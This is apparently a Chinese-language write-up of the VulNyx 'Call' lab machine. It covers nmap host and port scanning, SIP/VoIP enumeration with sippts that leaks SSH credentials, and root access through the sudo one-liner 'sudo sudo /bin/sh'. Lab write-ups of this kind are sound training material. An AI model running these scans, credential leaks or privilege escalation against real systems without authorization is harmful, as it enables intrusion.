

# 环境

来自[Vulny_Call](https://vulnyx.com/#Call)，VoIP服务渗透，获取ssh用户密码，sudo提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.24
sudo nmap -sU --top-ports 100 -v 192.168.10.24 #找不到突破口就扫UDP
```


## 服务详情

```bash
sudo -sVC -O -p22,80 192.168.10.24
```


## 目录扫描

```bash
dirb http://192.168.10.24 #无结果
```

# VoIP渗透

## 5060端口

SIP（Session Initiation Protocol）是一种信令协议，用于控制多媒体通信会话，如语音和视频通话。它是一个基于请求/响应的协议，使用类似于HTTP的语法，通过发送消息来建立、修改和终止会话。SIP默认使用UDP协议进行通信，其默认端口号为5060

Sippts 是一套用于审计基于SIP协议的VoIP系统的工具

```bash
sudo apt install sippts
sippts scan -i 192.168.10.24
sippts enumrate -i 192.168.10.24
sippts leak -i 192.168.10.24  #直接获取信息
```


解密password

```
用户名：phone
密码：telephone
```


## 提权

[sudo提权](https://gtfobins.github.io/gtfobins/sudo/)

```bash
ssh phone@192.168.10.24
sudo sudo /bin/sh
```


